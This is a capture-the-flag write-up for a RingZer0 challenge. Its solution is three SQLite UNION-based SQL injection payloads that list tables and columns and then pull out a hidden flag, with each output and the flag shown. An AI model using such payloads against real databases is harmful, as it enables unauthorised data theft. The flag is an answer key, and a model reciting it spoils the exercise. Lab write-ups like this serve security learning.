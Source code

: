 <h1> Thinking outside the box is the key</h1>
<h3>Description</h3>
<p>http://challenges.ringzer0ctf.com:10039</p>
<h3>Solution</h3>
<p>Payload SQLite Union</p>
<pre>
1 union select null,group_concat(COALESCE(name,''), '||ROW||') FROM sqlite_master WHERE type='table' --      =  random_stuff||ROW||ajklshfajks||ROW||troll||ROW||aatroll
1 union select null,group_concat(COALESCE(name,''), '||ROW||') FROM pragma_table_info('ajklshfajks') --      =  flag
1 union select null,group_concat(COALESCE(flag,''), '||ROW||') FROM ajklshfajks --                           =  FLAG-13lIBUTHNFLEprz2KKMx6yqV
</pre>
<h3>Flag</h3>
<pre>
FLAG-13lIBUTHNFLEprz2KKMx6yqV
</pre>
